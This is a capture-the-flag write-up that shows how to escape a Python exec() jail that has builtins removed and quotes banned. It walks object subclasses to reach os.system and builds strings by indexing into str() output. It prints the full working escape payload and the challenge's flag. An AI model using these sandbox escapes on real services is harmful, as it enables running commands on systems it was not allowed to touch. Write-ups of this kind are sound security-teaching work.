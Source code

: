 ## Description:
The extraterrestrials have upgraded their authentication system and now only them are able to pass. Did you manage to learn their language well enough in order to bypass the the authorization check?

## Methodology

This challenges has us placed in a python jail where we can provide very liminted input. Providing malformed input can get us a useful error message that gives us a little insight into what exactly this jail is doing.
```python
File "/app/build_yourself_in.py", line 13, in main
    exec(text, {'__builtins__': None, 'print':print})
```
This tells us that our input code is running inside of a locked down exec() call. With **\_\_builtins\_\_** being set to a None object we know that the only function we have available to us is print. However, we can find another restriction in the fact that if we try to run **print("test")** we get this message.
```
🛑No quotes are allowed! 🛑

Exiting..
```
This is an important restriction to know about and one we will come back to later.
For now the goal is to run some functions that have supposedly been removed from our environment with ```'__builtins__': None```.
One thing we do have access to inside of this prompt is the use of tuples. Tuples are simple objects in python that allow for immutable lists. An empty tuple can be created as ```()``` in python. This may not seem very helpful on it's own, but what's important about tuples in python is that they inherit from the **Object** class.
using the python built-in attribute __class__ and __bases__ we're able to return a tuple containing the classes that an object inherits from.
```python
print(().__class__.__bases__)
#Results in <class 'object'>
```
This is really good news for us as it means we can now access any of the other classes that are used in this program that also inherit from object. We can get a nice list of these different classes by running ```().__class__.__bases__[0].__subclasses__()``` which returns an array containing all of the subclasses of object that have been imported into this program.
I cleaned up the output and got the following list
```python
class 'type'
class 'weakref'
class 'weakcallableproxy'
class 'weakproxy'
class 'int'
class 'bytearray'
class 'bytes'
class 'list'
class 'NoneType'
class 'NotImplementedType'
class 'traceback'
class 'super'
class 'range'
class 'dict'
class 'dict_keys'
class 'dict_values'
class 'dict_items'
class 'dict_reversekeyiterator'
class 'dict_reversevalueiterator'
class 'dict_reverseitemiterator'
class 'odict_iterator'
class 'set'
class 'str'
class 'slice'
class 'staticmethod'
class 'complex'
class 'float'
class 'frozenset'
class 'property'
class 'managedbuffer'
class 'memoryview'
class 'tuple'
class 'enumerate'
class 'reversed'
class 'stderrprinter'
class 'code' [35]
class 'frame'
class 'builtin_function_or_method'
class 'method'
class 'function'
class 'mappingproxy'
class 'generator'

...
class 'bytes_iterator'
class 'bytearray_iterator'
class 'dict_keyiterator'
class 'dict_valueiterator'
class 'list_iterator'
class 'list_reverseiterator'
class 'range_iterator'
class 'set_iterator'
class 'str_iterator'
class 'tuple_iterator'
class 'collections.abc.Sized'
class 'collections.abc.Container'
class 'collections.abc.Callable'
class 'os._wrap_close'
class '_sitebuiltins.Quitter'
class '_sitebuiltins._Printer'
class '_sitebuiltins._Helper'
```
This is an incredibly long list, but out of it there are a couple important classes for what we're trying to accomplish.

```class 'str'``` is at postition 21 in the array and could be used to build a string without us inputting quotes.

```class 'os._wrap_close'``` is at position 132 and could be used to access the os.system() function for running commands on the server.
We will start tinkering with the os._wrap_close class first.
Doing some googling I came across this [article](https://blog.p6.is/Python-SSTI-exploitable-classes/) discussing vulnerable python classes.

At the bottom of the article they provide sample code to access system("ls") from os.__wrap_close
```python
[].__class__.__mro__[1].__subclasses__()[127].__init__.__globals__['system']('ls')
```
This shows that if you have the os._wrap_close class you can walk up the reference using ```__init__.__globals__``` to get a dictionary of all the functions that class implements.

We can combine this with our previous command to get a long list of all functions we have access to through OS.
```python
print(().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)
```
This outputs
```
{'__name__': 'os', '__doc__': "OS routines for NT or Posix depending on what system we're on.\n\nThis exports:\n  - all functions from posix or nt, e.g. unlink, stat, etc.\n  - os.path is either posixpath or ntpath\n  - os.name is either 'posix' or 'nt'\n  - os.curdir is a string representing the current directory (always '.')\n  - os.pardir is a string representing the parent directory (always '..')\n  - os.sep is the (or a most common) pathname separator ('/' or '\\\\')\n  - os.extsep is the extension separator (always '.')\n  - os.altsep is the alternate pathname separator (None or '/')\n  - os.pathsep is the component separator used in $PATH etc\n  - os.linesep is the line separator in text files ('\\r' or '\\n' or '\\r\\n')\n  - os.defpath is the default search path for executables\n  - os.devnull is the file path of the null device ('/dev/null', etc.)\n\nPrograms that import and use 'os' stand a better chance of being\nportable between different platforms.  Of course, they must then\nonly use functions that are defined by all platforms (e.g., unlink\nand opendir),
...
'system': <built-in function system>
...
```
In the middle of this incredibly long output we find the entry for **system**.
Perfect, we're almost there!

Now we have the address the elephant in the room... we still can't use quotes of any kind to build a string.<br />
The original code we want to run is ```print(().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['system']('ls'))```. We can do all of this except for the **system** and **ls** strings.<br />
To get around this we need to go back to the str class we found previously in the class dump. The useful aspect of this function comes from the fact that if you give it a dictionary or array, it will return the string version of that object. In python string objects can be substringed with indexes the same way you would an array.
```python
print(str({'__name__': 'os'})[4]) #This results the letter n being printed
```
With this in mind we just need to pass in an object that has all the characters we need to build the string for **system** and **ls**. I decided to pass in the large function dump we got from running the above ```__init__.__globals__``` code. With this long string for our use in substringing we are now able to piece together the strings we need. I wrote a small [script](https://github.com/dwolfe884/CTFWriteups/blob/main/misc/HTBCTF_BuildYourselfIn/builder.py) to build the payload for me.

The final payload I ended up using to cat out the flag.txt file was
```python
print(().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__[().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[79]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[78]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[79]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[80]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[81]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[82]](().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[155]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[79]))
```
This returns our flag
```
CHTB{n0_j4il_c4n_h4ndl3_m3!}
```
